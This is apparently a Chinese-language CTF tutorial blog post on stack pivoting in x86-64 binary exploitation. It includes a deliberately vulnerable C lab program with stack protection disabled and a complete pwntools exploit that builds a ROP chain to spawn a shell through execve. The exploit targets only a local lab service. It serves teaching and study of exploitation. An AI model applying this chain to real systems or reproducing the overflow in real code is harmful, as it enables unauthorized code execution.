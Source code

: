 ```yaml
---
title: "Day18－Stack Pivoting"
date: 2024-09-18
draft: false
tags: ["iron-man-2024", "pwn", "binary-exploitation"]
categories: ["security-research"]
author: "YJK"
showToc: true
TocOpen: false
---
```



## [Lab 網址](https://github.com/YJK0805/PWN-CTF-note/)

## 前言

如果我們沒有辦法有足夠的長度或方法 leak libc 或是構建 ROP chain，還有什麼攻擊方式嗎？其實有的，就是將 stack 直接移到其他區塊並執行事先寫在指定區域的 chain。將 stack 遷移到其他地方的方式就叫做 Stack Pivoting 或 Stack Migration。

## Stack Pivoting

Stack Pivoting 是將 ROP chain 分次寫在指定區域，最後將 stack 遷移過去執行。Stack 由 `rsp` 控制，因此我們需要控制 `rsp`，主要利用以下的關鍵指令：

- leave ; ret

實際執行了以下兩個動作：

- leave -> mov rsp , rbp ; pop rbp ;
- ret -> pop rip;

由於在每次的 buffer overflow 中，`rbp` 是可以控制的，所以我們可以利用 `rbp` 加上這個指令來控制 `rsp`。這些 gadgets 在程式中幾乎都可以找到，因為它們通常用於 function 結束時恢復上一個 function 的 stack frame。

### 範例

以下範例展示如何將 `rsp` 遷移到另一個區塊：

原本的 `rbp` 是 `0x7ffe65dea290`，`rsp` 是 `0x7ffe65dea280`。經過 `leave` 後，`rbp` 被換成我們填入的 `save rbp` 位置，`rsp` 變為 `rbp + 0x8`。再透過一次 `leave`，`rsp` 就會進一步改變。

如此一來，我們就可以控制執行流程，並且可以通過不斷遷移 stack 來達成任意的 ROP。

![image](/images/iron2024/day18_image1.png)

![image](/images/iron2024/day18_image2.png)

![image](/images/iron2024/day18_image3.png)

![image](/images/iron2024/day18_image4.png)

## Lab

查看以下原始碼：

```c
#include<stdio.h>
#include<stdlib.h>

char name[0x100];

int main(){
    setvbuf(stdout, 0, 2, 0);
    setvbuf(stdin, 0, 2, 0);
    setvbuf(stderr, 0, 2, 0);
    char message[0x10];
    puts("Welcome to challenge!");
    puts("What's your name?");
    read(0, name, 0x100);
    puts("Leave a message: ");
    read(0, message, 0x20);
    return 0;
}
```

使用以下指令進行編譯：

```bash
gcc src/stack_pivoting.c  -o ./stack_pivoting/share/stack_pivoting -fno-stack-protector -no-pie -static
```

## writeup

可以發現有一個全域變數 `name` 可以寫入內容，還有一個 `message` 可以輸入並且存在 buffer overflow 的風險。我們可以確認是否能覆蓋 return address。

在輸入是從 `rbp - 0x10` 輸入 0x20，因此可以 overflow 的空間為 0x20 - 0x10 = 0x10，剛好可以覆蓋 return address。

![image](/images/iron2024/day18_image5.png)

因為編譯參數使用了 `-static`，我們可以利用許多 gadgets 來進行 ROP。不能直接透過 return address 進行 ROP，但可以將 ROP chain 寫在 `name` 中，透過 stack pivoting 將程式流程轉移到 `name`，進而執行 ROP。

確認 `name` 的位置：

![image](/images/iron2024/day18_image6.png)

接下來可以參考[Day12－Basic ROP](https://ithelp.ithome.com.tw/articles/10358514)

要注意，name 要填入最後將 rsp 遷移過去會改的 padding，還有要注意 return address 的部分要填上 leave ; ret，並且加上原先就存在 main function 最後的 leave ; ret，即可改變 rsp

完整 exploit：

```python
from pwn import *

context.arch = 'amd64'

# r = process('../stack_pivoting/share/stack_pivoting')
r = remote('127.0.0.1', 10009)

rop = flat(
    0x00000000004048f4, # pop rsi ; ret
    0x49c230, # writable address
    0x0000000000417807, # pop rax ; ret
    b'/bin/sh\x00',
    0x0000000000418f31, # mov qword ptr [rsi], rax ; ret
    0x0000000000417807, # pop rax ; ret
    0x3b, # execve
    0x0000000000402008, # pop rdi ; ret
    0x49c230, # writable address
    0x00000000004048f4, # pop rsi ; ret
    0x0, # NULL
    0x00000000004563b7, # pop rdx ; pop rbx ; ret
    0x0, # NULL
    0x0, # NULL
    0x0000000000401291, # syscall
)
payload = b'A' * 0x8 + rop
r.sendlineafter(b"What's your name?\n",payload)
name = 0x000000000049db40
leave_ret = 0x0000000000401852
pivoting = b'A' * 0x10 + p64(name) + p64(leave_ret)
r.sendlineafter(b"Leave a message: \n",pivoting)
r.interactive()
```

solve!!!

![image](/images/iron2024/day18_image7.png)
